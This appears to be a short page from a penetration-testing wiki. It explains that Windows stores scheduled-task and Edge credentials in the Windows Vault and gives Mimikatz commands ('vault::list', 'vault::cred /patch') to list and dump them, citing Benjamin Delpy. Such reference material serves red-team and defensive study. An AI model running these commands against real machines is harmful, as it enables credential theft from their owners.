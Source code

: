 ```yaml
---
label: Windows Vault
---
```


# Credentials dump from Windows Vault

For some reason, Windows keeps scheduled task credentials in Credentials Vault. There are also other cases when credentials are stored in the Windows Vault (e.g. built-in Edge password management). We can retrieve them using Mimikatz.

Windows:

```powershell
.\mimikatz.exe

# List vault credentials
> vault::list

# Dump credentials
> vault::cred /patch
```

## References

* [Benjamin Delpy, _Scheduled tasks credentials_](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-scheduled-tasks-credentials)
